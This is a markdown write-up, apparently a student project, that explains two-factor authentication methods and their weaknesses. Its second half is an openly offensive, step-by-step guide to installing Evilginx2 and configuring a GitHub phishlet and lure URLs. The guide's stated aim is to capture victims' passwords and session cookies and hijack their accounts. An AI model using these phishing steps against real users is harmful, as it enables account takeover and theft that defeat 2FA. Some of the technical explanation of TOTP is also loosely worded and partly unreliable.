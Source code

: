 #Two Factor Authentication
##What is the 2FA?
2FA is an electronic authentication method in which a user is granted access to a website or application only after successfully presenting two or more pieces of factors to an authentication mechanism: knowledge (something only the user knows), possession (something only the user has), and inherence (something only the user is). MFA protects user data—which may include personal identification or financial assets—from being accessed by an unauthorized third party that may have been able to discover, for example, a single password.

##Who uses it
- finance
- healthcare
- law enforcement 
- government

##How does it work? 
###Different forms of two-factor authentication
####Physical Authentication Keys(U2F)
- A common two-factor combination is a password + some personal item, such as a USB shield for online banking. The user plugs the USB shield into the laptop and enters the password to log in to online banking.
It is a minor USB key that you put on your keychain. Whenever you want to log into your account from a new computer, you have to insert the USB key and press the button on it. That is it - no code needed. In the future, these devices should work with NFC and Bluetooth to communicate with mobile devices that do not have USB ports.
- Pro:
This solution works better than SMS verification and one-time-use codes because it cannot be intercepted and messed.
- Con:
The user cannot carry the USB shield at all times, and it is easy to lose it. In contrast, mobile phones are an excellent alternative.

####SMS
- Many services require users to receive SMS messages when they login to their accounts. The SMS message will contain a one-time code, and the user needs to enter this code as a second authentication method to log in to the account.
- Pro:
Compared with U2F, it is more portable. Because users do not need to carry extra equipment, most people have cell phones. Some services even dial a phone number and have an automated system to speak the code, and landline numbers that cannot receive text messages can also receive codes.
- Con:
There is a big problem with SMS. Attackers can use SIM swapping attacks to access the security codes or intercept them.
####Authenticator Apps(TOTP)
- The full name of TOTP is Time-based One-time Password. It is recognized as a reliable solution and has been written into the international standard RFC6238.

- Authentication apps work by using a mobile app to generate an authentication code. Unlike SMS, the application does not require the user to access the wireless network. Any internet connection is sufficient to access the account. How it works is that when the user turns on two-factor authentication, the server will generate a secret key. The server prompts the user to scan the QR code (or use other methods) to save the key to the user's mobile phone. That is to say, the server and the user's mobile phone now have the same key. Note that the key must be bound to the phone. Once the user changes the phone, a brand new key must be generated. When the user is ready to log in, the mobile client uses this key and the current timestamp to generate a hash with a default validity period of 30 seconds. The user submits this hash to the server within the validity period. Finally, the server also uses the key and the current timestamp to generate a hash compared with the hash submitted by the user. As long as the two are inconsistent, the login is denied.
- Google Authenticator

##Types of 2FA hacking
- Supply Chain Attacks: Vendor attacks that target the supply chain of a software or software that is a service to the vendor. The goal is to access source codes. The most famous attack in recent years is the [SolarWinds](https://www.csoonline.com/article/3601508/solarwinds-supply-chain-attack-explained-why-organizations-were-not-prepared.html) attack, various code components of the company were infected, and employees of the company downloaded the virus software by accident. Hackers modify authentication credentials and use tools to modify environment variables, allowing hackers to track and modify target IP addresses to obtain sensitive information.

- Compromised MFA authentication: Control the account directly through other methods such as information verification, or directly modify the user verification OTP. This bug has been fixed.

##A Silver Buillet?
Imagining A stone in the middle of the road, you don't want to push it away or smash it, the most practical way is to go around it since our goal is to keep walking down the road. This thought guides us: Is there a way to bypass 2FA itself, not by modifying 2FA, but to directly control the account beyond 2FA, after all, that is our purpose.

##Our Solution to hack 2FA -- Man-In-The-Middle Attacks(MITM)
To put it simply, the hacker creates a phishing website by intercepting the user's traffic, where the user enters various information, the encrypted information is decoded on the hacker's server, and then the hacker extracts the user's cookie from the YAML file, and then Hacking accounts to conduct criminal activities.

Old tactics (phishing) involving two steps:
- Interception: intercepts user traffic through the attacker’s network before it reaches its intended destination. The common way to do this are: IP spoofing,ARP spoofing, DNS spoofing.
- Decryption: decrypted information got from phishing user without alerting the user or application.

Yet it is not an ideal way to dealing with 2FA. Most 2FA website verification will reopen a new window, which means that the single html template sent by the hacker cannot re-import the user into another window, so the hacker has no way of knowing what 2FA code is.

That's why we need a framework called Evilginx.

##What is Evilginx?
- A MITM framework setting up phishing pages
- It captures not only usernames and passwords, but also captures authentication tokens sent as cookies. 
- Captured authentication tokens allow the attacker to bypass any form of 2FA enabled on user's account.
- Even if phished user has 2FA enabled, the hacker would only need to set up a domain and a VPS server then he is able to remotely control the account. 
- The 2FA with SMS codes, mobile authenticator app or recovery keys are completely useless deal with this attack.

##How does Evilginx work?
- Instead of creating a lookalike sign-in page, it creates a layer between the phished user and the real website.
- While the user interacts with the real website, the evilginx would extract information from both side.
- Once the session cookie is obtained, Hackers are able to bypass any 2FA.

##Evilginx implementation

- Tools required:
1. A Ubuntu Server (above 20.0)
2. A DNS (you can buy on main domain name provider such as Google Domain)
3. GO language installed

####First step (If you had installed GO, please skip this step):

Get GO package
```bash
    wget -c https://golang.org/dl/go1.15.2.linux-amd64.tar.gz
```
Unzip it
```bash
    sudo tar -C /usr/local -xvzf go1.15.2.linux-amd64.tar.gz
```

Adding global variable to the system script. First open up the file editor with 
```bash
    vi ~/.bashrc
```
Then add this line to the end of the file
```bash 
    export  PATH=$PATH:/usr/local/go/bin
```

####Second step, installing Evilginx2
These commands will download evilginx from github website and MAKE the folder
```bash
    sudo apt-get -y install git make
    git clone https://github.com/kgretzky/evilginx2.git
    cd evilginx2
    make
```

####Third step, activate Evilginx2
```bash
    sudo ./bin/evilginx -p ./phishlets/
```

####Fourth step, configures the target website by setting the desired subdomain
In the Evilginx2 command-line tool, type in
```bash
    config ip the_IP_adress_of_the_current_machine
    config domain the_domain_adress_that_you_have
```
Specific which website we are going to launch an attack, in this case the Github
```bash
    phishlets hostname github the_domain_adress_that_you_have
```
You need to enable the target before attack
```bash
    phishlets enable github
```
####Fifth step, create a phishing website link
```bash
    lure create github
    lure get-url 0
```

####Sixth step, waiting for the fish.
The Evilginx will bring all information the user had inteacts with the website, including its username and password and its 2FA code. Not only it, as long as the user did not find out the DNS is wrong, we pretty much can monitor what has he done in this website.

##Summary:

- The advantage of two-factor authentication is that it is much more secure than a simple password login. Even if the password is leaked, the account is safe as long as the phone is still there. Various password cracking methods are invalid for two-factor authentication.

- The disadvantage is that it takes one more step to log in, which is time-consuming and troublesome, and the user will feel impatient. Moreover, it does not mean that the account is safe; an intruder can still hijack the entire session by stealing the cookie or token.

- One of the biggest problems with two-factor authentication is account recovery. Once a user forgets his password or loses his phone, he must bypass two-factor authentication to restore login, which creates a security hole. Unless preparing two sets of two-factor authentication, one is used for logging in, and the other is to restore the account.

##Reference:

https://www.merchantfraudjournal.com/two-factor-authentication-work/

https://duo.com/product/multi-factor-authentication-mfa/two-factor-authentication-2fa

https://www.howtogeek.com/232598/5-different-two-step-authentication-methods-to-secure-your-online-accounts/

https://www.secsign.com/usb-authentication-keys-tokens-bad-idea/

https://www.usenix.org/system/files/soups2019-reese.pdf

